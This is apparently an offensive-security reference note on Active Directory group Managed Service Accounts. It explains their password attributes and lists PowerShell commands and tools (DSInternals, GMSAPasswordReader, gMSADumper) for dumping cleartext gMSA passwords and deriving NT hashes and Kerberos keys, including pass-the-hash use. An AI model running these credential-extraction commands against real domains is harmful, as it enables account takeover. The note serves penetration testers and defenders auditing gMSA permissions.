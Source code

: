 # Active Directory - group Managed Service Accounts

Introduced in `Windows Server 2012`, `group Managed Service Accounts (gMSAs)`
are service accounts managed by the Active Directory domain services. `gMSAs`
address a shortcoming of standalone `Managed Service Accounts (MSA)`, that were
introduced in `Windows Server 2008`, and were only usable on a single computer.
`gMSAs` use 240-byte passwords, generated and periodically rotated - 30 days by
default - by (writable) Domain Controllers using the domain
`Key Distribution Services (KDS)` `root key`.

`gMSAs` created using the `New-ADServiceAccount` PowerShell cmdlet are by
default placed in the default managed service accounts container
(`CN=Managed Service Accounts,<DOMAIN_ROOT>`).

`gMSAs` are objects of class `ms-DS-Group-Managed-Service-Account` (subclass of
`Computer`) with the following additional attributes:
  - `msDS-GroupMSAMembership` (`PrincipalsAllowedToRetrieveManagedPassword`):
    defines which security principal(s) can retrieve the `gMSA` password
    (in the `msds-ManagedPassword` attribute). It corresponds to a security
    descriptor, with principal(s) having the right to retrieve the
    `gMSA` password being granted the `RIGHT_DS_READ_PROPERTY` access control
    right.

  - `msds-ManagedPassword`: a
    [`MSDS-MANAGEDPASSWORD_BLOB`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/a9019740-3d73-46ef-a9ae-3ea8eb86ac2e)
    that contains the `gMSA`'s previous and current clear-text password, as
    well the expiration timers of the current password. The
    `msds-ManagedPassword` attribute is a constructed attribute, calculated by
    a (writable) Domain Controller upon each query using the
    `Key Distribution Services (KDS)` `root key` and the key identifiers.

  - `msDS-ManagedPasswordId` and `ms-DS-ManagedPasswordPreviousId`: contain the
    key identifier used to compute, respectively, the current and previous
    password of the `gMSA`.

  - `ms-DS-ManagedPasswordInterval`: contains the interval period in days under
    which the `gMSA`'s password will be rotated. By default, the rotation
    period is 30 days.

### gMSAs enumeration

The PowerShell `ActiveDirectory` module can be used to enumerate the `gMSAs`:

```bash
# Enumerates the gMSA in the domain.
Get-ADServiceAccount -Filter *
Get-ADObject -LDAPFilter "(objectClass=msDS-GroupManagedServiceAccount)" -Properties *

# Retrieves the principals allowed to retrieve gMSAs' password.
Get-ADServiceAccount -Filter * -Properties PrincipalsAllowedToRetrieveManagedPassword

# Retrieves the principals allowed to retrieve gMSAs' password and highlights potentially dangerous rights (simple analysis based on direct principal names matching).
$PrivilegedPrincipalsRegex = [string]::Join('|', @('CN=Domain Admins', 'CN=Enterprise Admins', 'CN=Domain Controllers'))
$UnprivilegedPrincipalsRegex = [string]::Join('|', @('CN=Domain Users', 'Everyone', 'CN=Domain Computers', 'Authenticated Users', 'Anonymous'))

Get-ADServiceAccount -Filter * -Properties PrincipalsAllowedToRetrieveManagedPassword | ForEach-Object {
    Write-Host -ForegroundColor DarkGreen -BackgroundColor White $_.SamAccountName
    Write-Host $_.DistinguishedName
    Write-Host $_.SID
    Write-Host "`n"

    Write-Host "PrincipalsAllowedToRetrieveManagedPassword:"
    foreach ($Principal in $_.PrincipalsAllowedToRetrieveManagedPassword) {
        If ($Principal -match $UnprivilegedPrincipalsRegex) {
            Write-Host -ForegroundColor Green $Principal
        }
        ElseIf ($Principal -match $PrivilegedPrincipalsRegex) {
            Write-Host -ForegroundColor Red $Principal
        }
        Else { Write-Host -ForegroundColor Yellow $Principal }
    }

    Write-Host "`n"
}
```

### gMSAs ACL enumeration and msDS-GroupMSAMembership modification

Refer to the `[ActiveDirectory] ACL exploiting` note
(`group Managed Service Accounts (gMSA)` section) for more information on
techniques and tools to modify `gMSAs`'s `msDS-GroupMSAMembership` attribute.

### gMSAs password retrieval

Multiple tools and utilities can be used to retrieve a `gMSA` account password,
and further derivate its `NTLM` / `NTHash` and `Kerberos` secrets
(`AES 128` and `AES 256` keys):

| Tool | URL | Description |
|------|-----|-------------|
| PowerShell `ActiveDirectory` and [`DSInternals`](https://github.com/MichaelGrafnetter/DSInternals) modules: <br><br> `ActiveDirectory` module: <br> `Get-ADServiceAccount` <br><br> `DSInternals` module: `ConvertFrom-ADManagedPasswordBlob` <br>  `ConvertTo-NTHash` | https://github.com/MichaelGrafnetter/DSInternals | Combination of PowerShell cmdlets from the `ActiveDirectory` and `DSInternals` modules to retrieve all or the specified `gMSAs` password and compute the corresponding `NTLM` / `NTHash` and `Kerberos` secrets. <br><br> Uses the current security context and supports alternate credentials (username/password). |
| [`GMSAPasswordReader`](https://github.com/rvazarkar/GMSAPasswordReader) | https://github.com/rvazarkar/GMSAPasswordReader | C# utility that retrieve the specified `gMSA` current and past password to calculate the corresponding `NTLM` / `NTHash` and `Kerberos` secrets. <br><br> Uses the current security context. |
| [`gMSADumper.py`](https://github.com/micahvandeusen/gMSADumper) | https://github.com/micahvandeusen/gMSADumper <br><br> Compiled standalone Linux / Windows x64 binaries: <br> https://github.com/Qazeer/OffensivePythonPipeline | Python script to retrieve all `gMSAs` password (that the given user has access to) to compute the corresponding `NTLM` / `NTHash`. <br><br> Supports user authentication with username/password, username/`NTHash`, or `Kerberos` tickets (on Linux using a ticket in the `credential cache (ccache)` format). Does not leverage the current security context. |

```bash
# PowerShell ActiveDirectory and DSInternals modules.
# Import-Module "<PATH>\DSInternals.psd1"
$gMSA = Get-ADServiceAccount -Identity '<GMSA_NAME>' -Properties 'msDS-ManagedPassword'
$msDSMP_blob = $gMSA.'msDS-ManagedPassword'

# Decodes the MSDS-MANAGEDPASSWORD_BLOB data structure using the DSInternals module.
$CleartextPassword = ConvertFrom-ADManagedPasswordBlob $msDSMP_blob
$CleartextPassword

# Converts the cleartext password to the corresponding NTLM / NT hash using the DSInternals module.
# To compute the corresponding Kerberos secrets using the cleartext password, refer to the "[ActiveDirectory] Kerberos tickets usage" note.
ConvertTo-NTHash -Password $CleartextPassword.SecureCurrentPassword

# GMSAPasswordReader C# utility.
GMSAPasswordReader.exe --AccountName <GMSA_NAME>

# gMSADumper.py Python script and standalone compiled binaries.
gMSADumper.py -d <DOMAIN> -u <USERNAME> -p <PASSWORD>

# <LM_HASH | NT_HASH> if only the NT_HASH is known: 'aad3b435b51404eeaad3b435b51404ee:<NT_HASH>'
gMSADumper.py -d <DOMAIN> -u <USERNAME> -p <LM_HASH | NT_HASH>

# On Linux, Kerberos authentication using a Ticket-Granting-Ticket in the ccache format.
gMSADumper.py -k -d <DOMAIN> -u <USERNAME>
```

--------------------------------------------------------------------------------

# References

https://docs.microsoft.com/en-us/powershell/module/activedirectory/new-adserviceaccount

https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/

https://it-central.fr/wp-content/uploads/2017/05/202938243-Comptes-et-groupes-de-services-VSA-MSA-gMSA-tuto-de-A-a-Z.pdf

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#readgmsapassword
